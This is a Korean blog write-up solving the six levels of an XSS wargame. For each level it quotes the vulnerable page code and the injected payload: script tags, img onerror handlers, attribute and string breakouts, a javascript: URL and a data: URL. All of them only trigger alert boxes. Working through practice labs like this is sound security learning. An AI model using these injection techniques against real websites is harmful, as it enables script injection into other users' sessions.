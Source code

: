 ```yaml
---
layout: post
title:  "xss game"
excerpt: "Funny Xss game"
date:   2020-10-21
categories: [wargame]
comments: true
---
```


이번에는 xss를 다시 감을 잡기 위하여 xss game문제를 해결했다.

<h3> 0x0. level1</h3>

1번은 아주 간단하게 xss test페이로드를 이용하여 해결이 가능하다.

![image-20201028163638356](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20201028163638356.png)

이렇게 있는데 그냥  ``` <script>alert("test");</script>``` 를 통해서 해결이 가능하다.



<h3> 0x1. level2</h3>

이번에는 대화창? 같은거에 xss를 시도하는 것 같다.

![image-20201029003033965](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20201029003033965.png)

간단하게 1번 페이로드를 시도해봤는데 , <script>가 필터링 된 것을 확인했다. 그래서 그 다음으로 자주 사용하는 onmouse나, onerror를 이용했다.

``` html
<img src=image.jpg onerror=alert("test")>
```

를 이용하여 해결했다.

<h3> 0x2 level3</h3>

![image-20201029003500262](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20201029003500262.png)

이미지를 누르면 frame뒤에 이미지 넘버와 주석이 붙는다.

```javascript
<script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
```

 코드를 보면 이런게 있는데 그냥 이미지 주소가 html에 들어가고 그걸  출력한다. 그래서 여기에 페이로드를 넣어봤다.

```javascript
5 'onerror='alert("test")'>
```

일부러 없는 이미지인 5를 출력하고 onerror를 통하여 alert를 실행했다.



<h3>0x3 level4</h3>

![image-20201029004403248](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20201029004403248.png)

이번에는 무슨 타이머다. 코드를 보면 아래와 같다.

```html
 <body id="level4">
    <img src="/static/logos/level4.png" />
    <br>
    <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
    <br>
    <div id="message">Your timer will execute in {{ timer }} seconds.</div>
  </body>
```

그래서 저기 {{timer}} 파트에 페이로드를 넣으면 될 것 같았다.

```javascript
3');alert('kangsecu
```

마찬가지로 이와 같은 페이로드를 넣으면 위의 코드에 들어가며 onload="startTimer('3'); alert('kangsecu');" 로 들어가서 xss 트리거가 가능하다.



<h3> 0x4 level5</h3>

![image-20201029010243324](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20201029010243324.png)

5번은 코드를 확인해보면 singup을 할 때, xss트리거가 발생하는 것을 알 수 있다. 

```html
 <body id="level5">
    <img src="/static/logos/level5.png" /><br><br>
    <!-- We're ignoring the email, but the poor user will never know! -->
    Enter email: <input id="reader-email" name="email" value="">
 
    <br><br>
    <a href="{{ next }}">Next >></a>
  </body>
```

위의 코드를 보면 {{next}} 파라미터가 get으로 넘어간다. 그래서 그냥 javascript:alert("test"); 를 이용하여 해결했다.



<h3> 0x5 level6</h3>

![image-20201029124134095](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20201029124134095.png)

마지막 문제다. 이 문제는 외부에서 서버를 이용하여 xss를 트리거 해야하고, location.hash를 이용해야 하는데 너무 귀찮았다.

```javascript
  // Take the value after # and use it as the gadget filename.
    function getGadgetName() { 
      return window.location.hash.substr(1) || "/static/gadget.js";
    }
```

그래서 그냥 data schema로 해결했다. ``` **data:text/html,alert(1)** ``` 

![image-20201029125037790](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20201029125037790.png)

